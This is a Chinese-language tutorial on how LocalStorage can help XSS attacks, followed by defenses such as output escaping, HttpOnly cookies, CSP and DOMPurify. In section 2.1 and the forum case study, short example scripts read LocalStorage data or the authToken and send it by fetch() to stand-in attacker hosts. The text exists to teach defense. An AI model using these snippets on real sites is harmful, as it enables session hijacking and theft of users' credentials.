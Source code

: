 LocalStorage 是浏览器提供的本地存储机制，用于在客户端存储数据。它本身是安全的，但由于其存储和使用方式的特点，在特定场景下可能成为 XSS 攻击的“帮凶”，具体原因可从以下几个方面理解：

### 一、XSS 攻击的基本原理

XSS（Cross-Site Scripting，跨站脚本攻击）的核心是攻击者通过注入恶意脚本，让浏览器在用户访问页面时执行这些脚本，从而窃取用户数据、会话信息或进行其他恶意操作。常见注入方式包括：

- 通过 URL 参数、表单输入等向页面注入恶意代码；
- 利用网页应用对输入/输出过滤不严格的漏洞。

### 二、LocalStorage 与 XSS 攻击的关联

#### 1. **恶意脚本可直接访问 LocalStorage 数据**

当页面存在 XSS 漏洞时，攻击者注入的脚本可通过 JavaScript 直接访问当前域名下的 LocalStorage，例如：

```javascript
// 恶意脚本示例：窃取 LocalStorage 中的所有数据
const stolenData = JSON.stringify(localStorage);
// 通过网络请求发送给攻击者服务器
fetch('https://attacker-site.com/steal', {
  method: 'POST',
  body: stolenData,
});
```

如果 LocalStorage 中存储了用户凭证（如 Token）、敏感信息（如手机号、地址），这些数据会被直接窃取。

#### 2. **存储内容被恶意解析执行**

如果应用将用户输入的数据直接存入 LocalStorage，且未做安全处理，攻击者可通过注入恶意脚本代码到存储内容中。例如：

- 用户在表单中输入 `<script>alert('XSS')</script>`，应用将其存入 LocalStorage；
- 当页面从 LocalStorage 读取该内容并直接渲染到 DOM 中（未做 HTML 转义）时，脚本会被浏览器执行，触发 XSS 攻击。

#### 3. **跨页面攻击的媒介**

LocalStorage 的数据在同一域名下的所有页面共享。若某个页面存在 XSS 漏洞，攻击者可通过该页面操作 LocalStorage，影响其他页面的行为。例如：

- 在 A 页面注入脚本，向 LocalStorage 中写入恶意配置；
- B 页面读取该配置并执行相关逻辑（如跳转至钓鱼网站），导致用户被攻击。

### 三、案例说明：LocalStorage 如何成为 XSS 攻击的跳板

1. **场景设定**：

   - 某论坛网站允许用户自定义个人简介，并将简介存入 LocalStorage；
   - 网站在渲染个人资料页面时，直接将 LocalStorage 中的简介内容插入到 HTML 中，未做转义处理。

2. **攻击步骤**：
   - 攻击者在个人简介中输入恶意代码：
     ```html
     <script>
       // 窃取用户 Token 并发送给攻击者
       const token = localStorage.getItem('authToken');
       fetch('https://attacker.com/steal', {
         body: `token=${token}`,
       });
     </script>
     ```
   - 其他用户访问攻击者的个人资料页面时，浏览器会从 LocalStorage 读取简介内容并渲染，恶意脚本被执行；
   - 脚本获取当前用户的 authToken（若存储在 LocalStorage 中），发送给攻击者服务器，导致用户会话被劫持。

### 四、为什么 LocalStorage 容易被利用？

- **客户端存储的开放性**：LocalStorage 完全由前端 JavaScript 控制，一旦浏览器执行了恶意脚本，就拥有了访问权限；
- **应用开发的安全漏洞**：若应用未对存入 LocalStorage 的数据做输入过滤，或未对读取的数据做输出转义，就会留下隐患；
- **与用户会话的关联性**：许多应用将会话凭证（如 JWT）存入 LocalStorage，一旦被窃取，攻击者可直接模拟用户身份。

### 五、如何防范 LocalStorage 相关的 XSS 风险？

1. **输入输出双重防护**：
   - 存入 LocalStorage 前，对用户输入的数据进行严格过滤（如禁止 HTML/JS 代码）；
   - 从 LocalStorage 读取数据并渲染到页面时，使用安全的 DOM 操作（如 `textContent` 而非 `innerHTML`），或进行 HTML 转义。
2. **避免存储敏感信息**：
   - 会话凭证等敏感数据优先使用 `HttpOnly Cookie`（无法通过 JavaScript 访问，减少被窃取风险）；
   - 必须存储时，可考虑加密处理（如 AES 加密）。
3. **XSS 通用防护措施**：
   - 启用 CSP（内容安全策略），限制脚本的执行来源；
   - 对用户输入进行严格的 sanitization（如使用 DOMPurify 库）；
   - 及时修补应用中的 XSS 漏洞。

### 总结

LocalStorage 本身不是安全漏洞，但它作为客户端存储介质，会被浏览器中的 JavaScript 直接访问。当应用存在 XSS 漏洞时，攻击者可利用脚本读取、篡改 LocalStorage 数据，或通过存储恶意内容触发攻击。防范的核心在于做好输入输出安全处理，并结合 XSS 通用防护手段，避免让 LocalStorage 成为攻击的“突破口”。
